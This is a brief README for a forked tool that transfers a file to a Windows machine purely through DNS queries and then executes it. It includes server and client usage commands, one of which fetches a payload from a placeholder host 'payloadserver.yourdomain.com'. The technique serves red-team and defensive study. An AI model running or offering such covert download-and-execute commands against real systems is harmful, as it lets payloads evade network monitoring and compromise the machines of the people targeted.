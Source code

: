 ## Purpose

Use only DNS queries to download a file, and then execute it.

## Usage

On the server hosting the file (tested with python2):

**sudo python server.py -f /path/to/file**

On the Windows client with batch script:

**client\client_batch\runme.bat _payloadserver_ _fileparts_ _publicdnsserver_**

Example: client\client_batch\runme.bat payloadserver.yourdomain.com 42 8.8.8.8

Original author:

http://breenmachine.blogspot.com/2014/09/transfer-file-over-dns-in-windows-with.html

https://github.com/breenmachine/dnsftp

Forked and modified by:

Daniel Vinakovsky
